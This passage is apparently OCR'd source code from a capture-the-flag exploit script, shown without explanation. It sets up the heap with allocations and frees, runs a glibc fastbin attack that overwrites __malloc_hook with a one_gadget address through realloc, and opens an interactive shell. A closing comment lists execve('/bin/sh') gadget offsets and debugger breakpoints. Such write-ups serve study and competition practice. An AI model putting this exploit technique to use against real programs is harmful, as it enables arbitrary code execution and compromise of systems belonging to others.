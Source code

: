 ```
Add(4, 0x38, '/bin/sh\x00')

Free(0)        #UB&lt;=&gt;A
Free(2)        #Fastbin-&gt;C
Add(2, 0x28, 'C'*0x20+flat(0x140)+'\x00')
Free(3)        #UB&lt;=&gt;(A, B, C, D)

#Fastbin Attack
Free(1)
exp = 'A'*0x90
exp+= flat(0, 0x71)
exp+= flat(libc.symbols['__malloc_hook']-0x23)
Add(6, len(exp), exp)        #Fastbin-&gt;B-&gt;Hook

Add(7, 0x60, 'B'*0x60)
exp = '\x00'*(0x13-0x8)
exp+= p64(libc.address+0x4527a)
exp+= p64(libc.symbols['realloc'])
Add(8, 0x60, exp)

Cmd(1)
sh.recvuntil('Where?')
sh.send(str(9).ljust(0x30, '\x00'))
sh.recvuntil('Big or small??')
sh.send(str(0x70).ljust(0x8, '\x00'))

sh.interactive()


'''
ptrarray:        telescope 0x2020A0+0x0000555555554000 16
printf:            break *(0xE7C+0x0000555555554000)

0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
```
